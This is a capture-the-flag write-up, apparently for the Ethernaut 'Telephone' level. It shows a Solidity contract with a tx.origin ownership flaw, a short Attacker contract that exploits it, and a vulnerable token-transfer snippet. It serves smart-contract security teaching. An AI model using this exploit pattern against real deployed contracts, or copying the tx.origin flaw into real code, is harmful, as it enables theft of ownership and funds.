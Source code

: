 4. Telephone

=========================

    pragma solidity ^0.4.18;

    contract Telephone {

        address public owner;

        function Telephone() public {
            owner = msg.sender;
        }

        function changeOwner(address _owner) public {
            if (tx.origin != msg.sender) {
                owner = _owner;
            }
        }
    }


=========================

###Goal
* Claim ownership of the contract below to complete this level.

=========================

### Solution

* The trick here is that tx.origin and msg.sender don't necessarily point to the same address
* So, if we invoke the function changeOwner() from another contract, we have successfully hacked this.


contract Attacker{
    
    
    function attack(address _t) public{
     
      require(address(_t) != 0);
      Telephone(_t).changeOwner(msg.sender);
    }
}

=========================

###Message on completion

While this example may be simple, confusing tx.origin with msg.sender can lead to phishing-style attacks, such as this.

An example of a possible attack is outlined below.

    Use tx.origin to determine whose tokens to transfer, e.g.

function transfer(address _to, uint _value) {
  tokens[tx.origin] -= _value;
  tokens[_to] += _value;
}
